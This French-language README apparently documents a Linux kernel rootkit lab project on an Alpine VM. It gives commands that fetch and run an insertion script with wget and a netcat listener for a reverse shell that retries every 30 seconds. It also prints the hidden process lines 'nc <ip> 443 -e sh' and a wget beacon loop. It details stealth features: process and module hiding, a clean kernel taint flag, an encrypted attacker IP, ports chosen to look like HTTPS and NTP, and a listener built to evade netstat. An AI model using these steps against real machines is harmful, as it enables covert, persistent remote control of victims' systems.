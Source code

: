 # Documentation Utilisateur

Exécuter le script de lancement de l’Alpine 

```c
./script_generate_alpine_LFS.sh
```

Se connecter avec les credentials `root:root`

Récupérer le script d’insertion et l’exécuter

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script
chmod +x insertion_script
./insertion_script
```

Depuis la machine hôte 

```c
ip a
```

récupérer l’IP de l’hôte et la renseigner au script d’insertion 

Un des processus de ce rootkit va envoyer un paquet réseau toutes les 30s.

Depuis la machine hôte on peut lancer un serveur python pour observer des logs provoqués par le rootkit :

```c
sudo python3 -m http.server 123
```

A l’insertion du module, on a : 

```c
"GET /START HTTP/1.1" 404 -
```

Toutes les 30s on a :

```c
"GET /UP HTTP/1.1" 404 -
```

Si un utilisateur sur l’alpine cherche à voir le processus qui déclenche ces logs, avec par exemple `ps`, `top`, ou un `ls` dans `/proc` le processus est kill puis relancé et on voit ce log : 

```c
"GET /RESTARTED_BECAUSE_SOMETHING_KILLED_ME HTTP/1.1" 404 -
```

Un processus du rootkit essaye d’établir un reverse shell toutes les 30s.

Depuis la machine hôte il est possible de lancer un reverse shell avec ce listener :

```c
sudo nc -lvnp 443
```

Attention lorsque la connection reverse shell est établie elle est visible via netstat depuis l’alpine, c’est pourquoi il est fourni un script python qui permet de kill la connection instantanément après avoir reçu une réponse de l’alpine.

```c
sudo python3 listener_discret.py "whoami"
```

L’utilisation de ce script python permet d’exécuter une commande sur l’alpine et de grandement diminuer les chances de se faire détecter par un netstat depuis l’alpine par rapport à la solution avec un listener classique de reverse shell. 

Il est possible de redémarrer l’alpine et le rootkit sera toujours en fonctionnement : 

```c
reboot
```

Lorsque le module est inséré, vous pouvez remarquer que : 

- pas de trace dans l’historique des commandes de l’insertion
- pas de log kernel “loading out of tree module taints the kernel”
- le kernel n’est pas tainted

```c
cat /proc/sys/kernel/tainted
0
```

- les processus réseaux initiés par le rootkit ne sont pas visible depuis l’alpine par un `ps` un `top` un `htop` ou plus généralement un parcours de `/proc`
- le module n’est pas visible avec `lsmod` et n’apparait pas dans `/proc/modules`

Néanmoins il est visible que :

- des kprobes sont enregistrées

```c
cbe2a877a075:~# cat /sys/kernel/debug/kprobes/list 
ffffffffad090094  k  __x64_sys_exit_group+0x4    [OPTIMIZED]
ffffffffad2b8674  k  __x64_sys_getdents64+0x4    [OPTIMIZED]
```

- Un kworker lié à notre rootkit est visible avec `ps`

```c
  626 root      0:00 [kworker/R-nfsio]
```

- les fichiers suivants, permettant la persistance de notre rootkit après un redémarrage (`reboot`), sont visibles et peuvent permettre de compromettre notre rootkit et l’IP de l’attaquant

```c
cbe2a877a075:~# cat /etc/modules
af_packet
ipv6
ipv4
```

```c
cbe2a877a075:~# ls /lib/modules/6.10.10/extra/
ipv4.ko
```

```c
cbe2a877a075:~# cat /etc/modprobe.d/ipv4.conf 
options ipv4 param=OGLPOHFPGKPOIN
```

Le paramètre param au dessus contient l’IP renseignée lors de l’insertion du script, mais chiffrée pour éviter de compromettre trop rapidement l’IP de l’attaquant.

- Il est possible de désactiver les kprobes avec :

```c
cbe2a877a075:~# echo 0 > /sys/kernel/debug/kprobes/enabled 
```

Ce qui désactive l’obfuscation de nos process.

Par exemple avec `ps` on voit désormais :

```c
  571 root      0:00 /bin/sh -c while true; do nc 192.168.95.170 443 -e sh; sle
  572 root      0:00 /bin/sh -c while true; do wget http://192.168.95.170:123/U
```

- les ports de destinations ont été choisis pour paraître habituels :
    - 443 pour le reverse shell (correspond habituellement au HTTPS)
    - 123 pour les paquets réseaux envoyés avec wget (correspond habituellement avec NTP)

- Dans le cas ou la persistance n’est pas nécessaire (serveur web n’ayant pas à être reboot), comme elle implique d’être facilement détectable à cause des 3 fichiers listés précédemment (`/etc/modules` par exemple) il existe un script d’insertion alternatif sans la persistance `insertion_script_without_persistence`

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script_without_persistence
chmod +x insertion_script
./insertion_script
```